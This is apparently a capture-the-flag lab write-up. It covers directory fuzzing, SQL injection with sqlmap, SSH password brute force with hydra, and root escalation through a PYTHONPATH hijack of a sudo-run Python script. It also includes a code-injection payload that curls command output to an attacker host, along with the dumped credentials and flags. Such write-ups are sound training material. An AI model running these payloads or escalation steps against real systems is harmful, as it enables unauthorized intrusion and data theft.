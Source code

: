 ```yaml
---
sticker: emoji//1f4d8
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8000 | http    |



# RECONNAISSANCE
---


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515122728.png)


As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.160.42:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```


This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515124333.png)

If we use that, we get:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515124345.png)


Surprisingly, `SQLI` works, let's proceed to exploitation then.


# EXPLOITATION
---

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:


```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email                | password       | username |
+----+----------------------+----------------+----------+
| 1  | smokey@email.boop    | My_P@ssW0rd123 | smokey   |
| 2  | test@test.com;whoami | test           | test     |
+----+----------------------+----------------+----------+
```


There we go, we got credentials, let's go into ssh

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515125529.png)


We can begin privilege escalation.



# PRIVILEGE ESCALATION
---


To begin with, let's use `linpeas` so we can check any PE vector:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root  root  4096 Mar  2  2022 .
drwxr-xr-x 5 root  root  4096 May 15 17:18 ..
lrwxrwxrwx 1 root  root     9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25  2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec  7  2021 .cache
-rw-r----- 1 root  hazel  497 Dec  7  2021 hasher.py
-rw-r--r-- 1 hazel hazel  807 Feb 25  2020 .profile
-rw-r----- 1 root  hazel   45 Mar  2  2022 user.txt
-rw------- 1 hazel hazel    0 Dec  7  2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec  7  2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, The `PYTHONPATH`environment variable controls where Python looks for modules. When Python imports a module like `hashlib`, it searches for the module in the following order:

- Current directory
- Directories in the `PYTHONPATH` environment variable
- Standard library directories
- Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a malicious `hashlib.py` module** that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute the `hasher.py` script with sudo**, hijacking the `PYTHONPATH` environment variable to include `/tmp`. 

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250515135418.png)

